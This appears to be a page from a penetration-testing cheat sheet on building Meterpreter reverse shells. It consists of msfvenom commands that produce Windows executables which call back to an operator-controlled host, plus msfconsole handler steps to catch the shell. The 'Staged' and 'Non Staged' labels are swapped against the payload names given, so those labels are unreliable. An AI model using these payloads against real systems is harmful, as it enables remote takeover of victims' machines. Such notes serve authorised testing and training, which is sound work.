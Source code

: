 ```yaml
---
title: Meterpreter
layout: default
parent: Shell Preparation
nav_order: 1
---
```


* Regular Non-Staged

```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe
```

* Meterpreter Staged

```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe
```

* Meterpreter Non Staged

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe
```

To receive the incoming shell (change the set payload to the one you set):

```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter_reverse_https
set lhost IP
set lport PORT
exploit
```
